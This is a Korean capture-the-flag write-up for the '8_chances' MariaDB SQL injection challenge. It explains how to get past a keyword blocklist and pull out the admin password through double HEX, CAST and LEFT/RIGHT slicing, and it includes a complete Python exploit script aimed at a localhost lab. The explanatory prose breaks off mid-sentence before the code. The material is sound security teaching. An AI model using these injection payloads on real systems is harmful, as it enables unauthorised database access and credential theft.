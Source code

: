 # 8_chances

## Concept

- sql injection
- mariadb

## Writeup

주요 기능을 정리해보겠습니다.
1. `reset` : `chance`를 8로 초기화합니다.
2. `test` : 입력한 쿼리를 실행시켜줍니다. 이 때 쿼리에
   `['union', 'update', 'sleep', 'concat', 'like', 'set', '@', '!', '%', '_', '\t','\n','\r','\v','\f', '/', '*', '#']`
   을 포함하면 안 됩니다.
3. `real` : `username`과 `password`를 입력받고 이것이 `admin`의 정보와 일치하면 `flag`를 줍니다. 이 때 `username`과 `password`는
   `string.punctuation + string.whitespace + string.digits`
   을 포함하면 안 됩니다.

`test` 기능을 자세히 보겠습니다.
`chance >= 8`이면 `admin`의 `password`를 교체합니다. 그리고 `test` 실행마다 `chance`가 1씩 증가하기 때문에 한 번 정해진 `password`는 8번의 쿼리 동안 유지됩니다. 쿼리 실행 결과의 요소가 1개이고, 그 `value`가 정수형이라면 출력해줍니다.
8번의 쿼리만을 `password`를 알아내야 합니다. 쿼리 실행 결과가 정수형이어야 출력을 볼 수 있으므로 `CAST(... as INT)`를 사용합니다. `INT`는 `BIGINT`로(`9,223,372,036,854,775,807`) 19글자의 숫자로 이루어진 문자열을 정수형으로 바꿀 수 있습니다. 생각을 조금만 더 하면, `UNSIGNED`를 사용하면 확정적으로 19글자를 정수형으로 출력할 수 있습니다.
이제 `password`를 길이가 `19 * 8 = 152` 이하인 숫자로 이루어진 문자열로 바꿔야 합니다. 숫자로 이루어진 문자열로 바꿔야 함에 집중해봅시다. 아스키코드표를 살펴보면, `[0-9a-fA-F]`를 `HEX`로 나타내면 모두 숫자로 이루어짐을 알 수 있습니다. 따라서 어떤 문자열이든 `HEX`를 두 번 씌우면 숫자로 이루어진 문자열로 만들 수 있습니다. `password` 초기화 과정에서 알 수 있는 점은 길이가 38인 점, `string.ascii_letters`로 이루어져 있다는 점입니다. `HEX`를 두 번 씌우면 문자열의 길이가 4배가 되므로 최종 길이는 `38 * 4 = 152`입니다. 조건과 정확히 일치합니다. 문자열을 자르는 것은 `LEFT`
## ex.py

```python
import requests

base_url = "http://localhost:10000/"

def reset():
    data = {
        "user" : "1",
        "pass" : "1",
        "testquery" : "1",
        "type" : "reset"
    }
    requests.post(base_url, data=data)

def test(testquery : str):
    data = {
        "user" : "1",
        "pass" : "1",
        "testquery" : testquery,
        "type" : "test"
    }
    res = requests.post(base_url, data=data)
    msg = res.text
    msg = msg.split('\n')[110].split('<')[1].split('>')[1]
    return msg

def real(ps : str):
    data = {
        "user" : "admin",
        "pass" : ps,
        "testquery" : "1",
        "type" : "real"
    }
    res = requests.post(base_url, data=data)
    return res.text

def lef(s : str, n : int):
    return "LEFT(" + s + f", {str(n)})"

def rig(s : str, n : int):
    return "RIGHT(" + s + f", {str(n)})"

def outline(s : str):
    return "SELECT CAST(" + s + " as UNSIGNED)"

base_payload = f"""
HEX(HEX((SELECT password FROM users WHERE username='admin')))
""".strip()

reset()
pw = ""
pw += test(outline(lef(lef(lef(base_payload, 76), 38), 19)))
pw += test(outline(rig(lef(lef(base_payload, 76), 38), 19)))
pw += test(outline(lef(rig(lef(base_payload, 76), 38), 19)))
pw += test(outline(rig(rig(lef(base_payload, 76), 38), 19)))
pw += test(outline(lef(lef(rig(base_payload, 76), 38), 19)))
pw += test(outline(rig(lef(rig(base_payload, 76), 38), 19)))
pw += test(outline(lef(rig(rig(base_payload, 76), 38), 19)))
pw += test(outline(rig(rig(rig(base_payload, 76), 38), 19)))
realpw = bytes.fromhex(bytes.fromhex(pw).decode()).decode()
print(realpw)
print(real(realpw))
```

8등분하는 방법은 여러 가지입니다. 예를 들어 `LEFT`와 `REVERSE` 함수만으로도 비슷한 논리를 이용하여 해결할 수 있습니다.